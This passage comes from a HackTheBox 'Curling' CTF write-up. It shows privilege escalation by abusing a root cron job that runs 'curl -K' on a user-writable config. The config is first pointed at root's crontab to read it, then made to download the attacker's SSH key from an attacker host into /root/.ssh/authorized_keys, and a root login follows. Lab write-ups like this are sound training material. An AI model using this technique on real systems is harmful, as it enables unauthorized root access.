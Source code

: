Of course, the point of HackTheBox, at least in my mind, is to get a root shell, not just the root flag. I grabbed /etc/shadow to see if I could crack root's hash, but it was a salted SHA-512 hash. I decided not to go down that road. The next file I got was root's cronjob file:

```shell
floris@curling:~/admin-area$ cat input
url = "file:///var/spool/cron/crontabs/root"
floris@curling:~/admin-area$ cat report
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.1F3WTb/crontab installed on Tue May 22 19:02:51 2018)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
#        
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#        
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#        
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#        
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#        
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#        
# For more information see the manual pages of crontab(5) and cron(8)
#        
# m h dom mon dow command
* * * * * curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
* * * * * sleep 1; cat /root/default.txt > /home/floris/admin-area/input
```

After seeing that root was running 'curl -K', I researched the '-K' flag and learned that you could specify more than just the url. Notably, you can specify an output location. Armed with this information, my goal was to overwrite the /root/.ssh/authorized\_keys file with my own SSH public key. If successful, I could simply run `ssh root@10.10.10.150` and get a password-free root shell. Ordinarily, you should definitely NOT use a passwordless SSH key. I only use this Kali instance for CTFs, so there's not really any risk associated with this decision.

```shell
floris@curling:~/admin-area$ cat input
url = "http://10.10.14.30/id_rsa.pub"
output = "/root/.ssh/authorized_keys"
user-agent = "hello"
```

```shell
matt@kali:~/.ssh$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.150 - - [27/Apr/2020 18:19:19] "GET /id_rsa.pub HTTP/1.1" 200 -
matt@kali:~$ ssh root@10.10.10.150
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-22-generic x86_64)
    * Documentation: https://help.ubuntu.com
    * Management: https://landscape.canonical.com
    * Support: https://ubuntu.com/advantage
    System information as of Mon Apr 27 23:24:34 UTC 2020
    System load: 0.0 Processes: 167
    Usage of /: 46.2% of 9.78GB Users logged in: 1
    Memory usage: 20% IP address for ens33: 10.10.10.150
    Swap usage: 0%
0 packages can be updated.
```